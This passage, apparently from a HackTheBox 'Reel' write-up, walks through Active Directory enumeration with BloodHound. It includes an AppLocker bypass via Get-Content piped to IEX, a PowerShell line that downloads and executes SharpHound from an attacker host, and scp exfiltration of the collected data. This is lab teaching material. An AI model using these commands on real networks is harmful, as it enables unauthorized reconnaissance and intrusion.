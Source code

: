 Oops! Remember the AppLocker document we found during our enumeration phase? `.ps1` files are restricted by AppLocker, so we won't be able to run scripts this way. But we know interactive Powershell actually works, since we used it in our initial exploit and right now in our shell. This means we can easily byppas AppLocker by simply using `IEX` and `Get-Content` like this:

```
> Get-Content SharpHound.ps1 -raw | IEX
```

### About versions, CSVs and JSONs

Now, I'll save you some time and tell you a little spoiler. The version of BloodHound installed on Reel is an old one (`1.5.2`), which used CSV as the format for the collected data. If you happened to install the most recent BloodHound on your Kali, this data won't be accepted by it, since BloodHound 2 onwards expects data in JSON format. So you have two options: either you install BloodHound 1.5.2 on your Kali, or you load into Reel BloodHound's most recent Ingestor. I tried both ways, and I think the second one is easier. So let's do that.

After cloning latest BloodHound version from GitHub on our attacker box, we can just use python's `SimpleHTTPServer` to serve `Ingestors/SharpHound.ps1` and get it from Reel:

```
> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.12.157/SharpHound.ps1')
```

And now we can run the `Invoke-BloodHound` function to gather the needed data, but first we'll need to move to a directory in which we can write without risk of overwriting anything or not having write permissions:

```
> cd C:\Windows\TEMP
> Invoke-BloodHound -CollectionMethod All
```

Let's go big and say `-CollectionMethod All` since the `note.txt` file mentioned the default query didn't find anything, so we'll need all the data we are able to gather. After some time, the command ends and we see several files were created: `.json` files, a `.bin` file and a `.zip` file. What BloodHound needs is the ZIP file (which contains all the generated JSONs), so let's obtain it with SCP since we have SSH available :)

```
# scp tom@10.10.10.77:'"C:\Windows\TEMP\20181107184135_BloodHound.zip"' .
tom@10.10.10.77's password:
20181107184135_BloodHound.zip			                                                                      100%   8.2K  66.8MB/s   00:00
```

(FTR, I had to use both single (`'`) and double (`"`) quotes for the path to be correctly interpreted by both SSH and Windows)

## Planning the attack with BloodHound

Great! Time to launch BloodHound! It needs `neo4j` to be running, so let's get that too:

```
# neo4j console
# bloodhound
```
